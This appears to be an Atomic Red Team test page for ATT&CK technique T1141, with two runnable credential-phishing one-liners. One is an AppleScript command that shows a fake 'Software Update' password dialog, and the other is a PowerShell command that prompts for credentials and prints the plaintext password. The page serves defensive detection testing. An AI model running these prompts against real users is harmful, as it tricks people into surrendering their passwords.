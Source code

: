 # T1141 - Input Prompt
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1141)
<blockquote>When programs are executed that need additional privileges than are present in the current user context, it is common for the operating system to prompt the user for proper credentials to authorize the elevated privileges for the task (ex: [Bypass User Account Control](https://attack.mitre.org/techniques/T1088)).

Adversaries may mimic this functionality to prompt users for credentials with a seemingly legitimate prompt for a number of reasons that mimic normal usage, such as a fake installer requiring additional access or a fake malware removal suite.(Citation: OSX Malware Exploits MacKeeper) This type of prompt can be used to collect credentials via various languages such as [AppleScript](https://attack.mitre.org/techniques/T1155)(Citation: LogRhythm Do You Trust Oct 2014)(Citation: OSX Keydnap malware) and [PowerShell](https://attack.mitre.org/techniques/T1086)(Citation: LogRhythm Do You Trust Oct 2014)(Citation: Enigma Phishing for Credentials Jan 2015).</blockquote>

## Atomic Tests

- [Atomic Test #1 - AppleScript - Prompt User for Password](#atomic-test-1---applescript---prompt-user-for-password)

- [Atomic Test #2 - PowerShell - Prompt User for Password](#atomic-test-2---powershell---prompt-user-for-password)


<br/>

## Atomic Test #1 - AppleScript - Prompt User for Password
Prompt User for Password (Local Phishing)
Reference: http://fuzzynop.blogspot.com/2014/10/osascript-for-local-phishing.html

**Supported Platforms:** macOS


#### Run it with `sh`! ```
osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'
```



<br/>
<br/>

## Atomic Test #2 - PowerShell - Prompt User for Password
Prompt User for Password (Local Phishing) as seen in Stitch RAT.

Reference: https://github.com/nathanlopez/Stitch/blob/master/PyLib/askpass.py

**Supported Platforms:** Windows


#### Run it with `command_prompt`! ```
powershell.exe -command {$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName); echo $cred.GetNetworkCredential().Password;}
```



<br/>
